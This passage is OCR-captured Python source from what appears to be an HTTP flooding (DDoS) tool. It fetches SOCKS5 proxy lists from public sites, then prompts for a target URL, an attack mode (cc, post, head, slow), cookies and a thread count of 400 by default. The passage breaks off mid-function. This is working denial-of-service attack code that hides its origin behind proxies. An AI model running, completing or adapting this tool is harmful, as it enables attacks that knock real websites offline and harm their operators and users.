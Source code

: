 		except:
			pass
		try:
			r = requests.get("https://www.proxy-list.download/api/v1/get?type=socks5",timeout=5)
			f.write(r.content)
			f.close()
		except:
			pass
		try:
			r = requests.get("https://www.proxyscan.io/download?type=socks5",timeout=5)
			f.write(r.content)
			f.close()
		except:
			pass
		try:
			r = requests.get("https://raw.githubusercontent.com/TheSpeedX/PROXY-List/master/socks5.txt",timeout=5)
			f.write(r.content)
		except:
			pass
		try:
			r = requests.get("https://raw.githubusercontent.com/hookzof/socks5_list/master/proxy.txt",timeout=5)
			f.write(r.content)
			f.close()
		except:
			f.close()
		print("> Have already downloaded socks5 list as socks5.txt")

def main():
	global multiple
	global choice
	global data
	global mode2
	global cookies
	global brute
	print("> Mode: [cc/post/head/slow/check]")
	mode = InputOption("> Choose Your Mode (default=cc) :",["cc","post","head","slow","check"],"cc")
	url = str(input("> Input the target url:")).strip()
	ParseUrl(url)
	if mode == "post":
		mode2 = InputOption("> Customize post data? (y/n, default=n):",["y","n","yes","no"],"n")
		if mode2 == "y":
			data = open(input("> Input the file's path:").strip()).readlines()
			data = ' '.join([str(txt) for txt in data])
	choice2 = InputOption("> Customize cookies? (y/n, default=n):",["y","n","yes","no"],"n")
	if choice2 == "y":
		cookies = str(input("Plese input the cookies:")).strip()
	choice = InputOption("> Choose your socks mode(4/5, default=5):",["4","5"],"5")
	if choice == "4":
		socks_type = 4
	else:
		socks_type = 5
	if mode == "check":
		CheckerOption()
		print("> End of process")
		return
	if mode == "slow":	
		thread_num = str(input("> Connections(default=400):"))
	else:
		thread_num = str(input("> Threads(default=400):"))
	if thread_num == "":
		thread_num = int(400)
	else: